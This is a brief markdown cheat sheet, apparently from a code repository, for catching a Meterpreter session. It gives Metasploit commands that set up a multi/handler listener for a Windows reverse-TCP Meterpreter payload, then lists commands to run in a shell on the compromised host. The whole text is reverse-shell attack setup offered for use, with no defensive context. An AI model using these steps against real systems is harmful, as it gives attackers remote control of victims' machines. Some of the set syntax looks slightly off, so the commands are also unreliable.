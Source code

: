 # Meterpreter

MSF Framework :
---
Setup
```
msfconsole -q
use exploit/multi/handler
set payload windows/x86/meterpreter/reverse_tcp
set LHOST=192.168.0.X
set LPORT=4444
set RHOST=192.168.0.Y
exploit
```
Command :
```
shell
ipconfig
whoami
```
